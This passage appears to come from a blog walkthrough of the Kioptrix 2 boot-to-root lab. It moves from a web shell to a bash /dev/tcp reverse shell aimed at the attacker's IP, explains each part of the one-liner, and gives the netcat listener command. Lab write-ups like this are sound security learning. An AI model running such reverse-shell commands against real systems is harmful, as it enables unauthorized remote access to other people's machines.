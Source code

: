 Great! We have a web shell now. Let's set up a reverse shell to simplify interacting with it. There are multiple methods to accomplish this, and checking the availability of `nc` ('netcat') is essential. We can verify its existence using the command `whatis nc`:

![Desktop View](/assets/img/posts/2024-05-31-kioptrix-2-boot-to-root/pic14.png)

Unfortunately, `nc` (netcat) isn't installed on the target machine. Let's attempt to establish a reverse shell using `bash` and `/dev/tcp/`:

```shell
bash -i >& /dev/tcp/192.168.109.131/7702 0>&1
```

Let's break it down
- `bash`: Invokes the Bash shell.
- `-i`: Makes the Bash shell interactive, enabling interactive input and output.
- `>&`: Redirects both standard output (stdout) and standard error (stderr).
- `/dev/tcp/192.168.109.131/7702`: Specifies the location where output is redirected. `/dev/tcp` is a Unix-like system path that grants access to TCP sockets as if they were files. Here, it indicates the IP address `192.168.109.131` and port `7702`, typically belonging to the attacker who is listening.
- `0>&1`: Redirects file descriptor `0` (stdin) to file descriptor `1` (stdout), effectively treating stdin as identical to stdout.

Before executing this command on the target machine, a netcat listener must be established on the Kali machine. To do this, I'll use the command:

```shell
nc -lnvp 7702
```

Next, run the following command on the target machine: `bash -i >& /dev/tcp/192.168.109.131/7702 0>&1`. This will establish a connection with the `nc` listener on your Kali machine.

![Desktop View](/assets/img/posts/2024-05-31-kioptrix-2-boot-to-root/pic15.png)